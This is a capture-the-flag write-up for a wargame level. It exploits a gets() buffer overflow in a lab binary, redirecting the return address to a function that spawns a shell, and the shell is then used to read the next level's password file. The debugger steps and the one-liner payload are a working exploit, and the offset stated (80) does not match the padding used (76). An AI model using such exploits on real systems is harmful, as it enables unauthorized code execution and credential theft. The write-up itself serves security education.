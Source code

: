 # Solution

Here is the decompilation of the binary in C:

```c
int run(void)
{
    fwrite("Good... Wait What?\n", 1, 19, stdout);
    return system("/bin/sh");
}

int main(int ac, char **av)
{
    int v4;

    gets(&v4);
    return (0);
}
```

So here we use a function that is bad `gets()` if we go to the man section of `gets()`

```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will  read,
       and  because  gets()  will  continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has
       been used to break computer security.  Use fgets() instead.

       For more  information,  see  CWE-242  (aka  "Use  of  Inherently  Dangerous  Function")  at  http://cwe.mitre.org/data/defini‐
       tions/242.html
```

So basically we will be able to rewrite the return address this will allow us to return to the run function to do so,
we first need to get the offset at which we find ourselve to overwrite the return address.

We will find the offset by using a de brujin string,
we will use the `gdb gef` which add multiple extra command to help us to create exploit

So first we break in main and then run the program:
```sh
gef➤  b main
Breakpoint 1 at 0x8048483
gef➤  r
```

Now we need to create the de brujin string:

```sh
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
```

Now we need to pass the string when gets is called:
```sh
gef➤  c 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Now we will SIGSEGV after passing the string which is wanted from this we need to find the offset at which,
we sigsegv so we will check the current $esp register which is the current stack address that overwrite the return address.

```sh
gef➤  x/xw $esp
0xffffcb60:     0x61616175
gef➤  pattern search 0x61616175
[+] Searching for '75616161'/'61616175' with period=4
[+] Found at offset 80 (little-endian search) likely
```

So apparently it's 80 now we need to check this by create a string with a specfic padding here we will "A",
and the last 4 byte before overwriting the return address "B".

```sh
gef➤  c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
gef➤  x/wx $esp
0xffffcb60:     0x42424242
```

So yes the overwrite start at offset 80,
now we need to find the address of run function which will be replace after the 80 byte padding.

We just need to print the value of the function 
```
gef➤  p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

So from this we need to pack the address which is basically a simple way of outputing,
the address that will match a specific endianess and architecure (32-bit or 64-bit),
so the result of the packed address here will be in little-endian using 32-bit.

We can use python module struct to do the packing.


```python
import struct

# "<" mean little endian "I" mean int32 bit
print(struct.pack("<I", 0x8048444))
# Output: b'D\x84\x04\x08'
```

So the exploit will be 80 byte of padding and b'D\x84\x04\x08' at the end.

So let's create the exploit:
```sh
level1@RainFall:~$ (perl -e 'print "A"x76 . "D\x84\x04\x08"') | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
```

As you can see the overwrite to the function is actually working we see fwrite() call "Good... Wait what?", 
but we still segfault this is due to the problem that we have stdin that is not set properly to the run() function,
to allowed the stdin to work we need to use `cat` command so it doesn't leave the stdin.

So here is the exploit that work now:

```sh
level1@RainFall:~$ (perl -e 'print "A"x76 . "D\x84\x04\x08"'; cat -) | ./level1 

Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
